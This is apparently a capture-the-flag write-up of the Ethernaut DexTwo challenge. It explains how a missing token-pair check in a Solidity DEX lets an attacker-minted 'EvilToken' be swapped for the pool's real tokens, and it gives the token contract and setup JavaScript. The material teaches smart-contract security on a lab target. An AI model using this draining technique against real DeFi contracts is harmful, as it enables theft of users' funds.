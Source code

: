 The key difference from the original Dex contract is that the following line has been removed:

```solidity
require((from == token1 && to == token2) || (from == token2 && to == token1), "Invalid tokens");
```

This requirement was crucial as it ensured that only token1 and token2 could be swapped. Without this check, the contract now allows swapping between any ERC20 tokens, including custom tokens that we control.

The vulnerability can be summarized as follows:

1. The contract allows swapping between any ERC20 tokens
2. The price calculation is based solely on the relative balances of tokens
3. We can create and control the supply of our own token
4. The contract doesn't validate the token's legitimacy or value

## The Complete Exploit

Now that we understand the vulnerability, let's walk through the complete exploit:

### Step 1: Create Our Malicious Token

First, we create our own ERC20 token that we can mint in any quantity:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "@openzeppelin/contracts/token/ERC20/ERC20.sol";

contract EvilToken is ERC20 {
    constructor(uint256 initialSupply) ERC20("EvilToken", "EVL") {
        _mint(msg.sender, initialSupply);
    }
}
```

We'll deploy this contract and mint 400 EVL tokens to ourselves. This specific amount is chosen because we'll need 100 tokens for the first swap and 200 for the second swap, with some buffer.

### Step 2: Setup and Prepare for the Attack

After deploying our EvilToken, we need to prepare for the attack:

```javascript
// Get token1 and token2 addresses
const t1 = await contract.token1();
const t2 = await contract.token2();

// Verify initial balances in the DexTwo contract
await contract.balanceOf(t1, instance).then(v => v.toString()); // "100"
await contract.balanceOf(t2, instance).then(v => v.toString()); // "100"

// Transfer 100 EVL to the DexTwo contract to establish an initial balance
await evlContract.methods.transfer(instance, "100").send({from: player});

// Verify our EvilToken was transferred successfully
await contract.balanceOf(evlToken, instance).then(v => v.toString()); // "100"
await contract.balanceOf(evlToken, player).then(v => v.toString()); // "300"
```
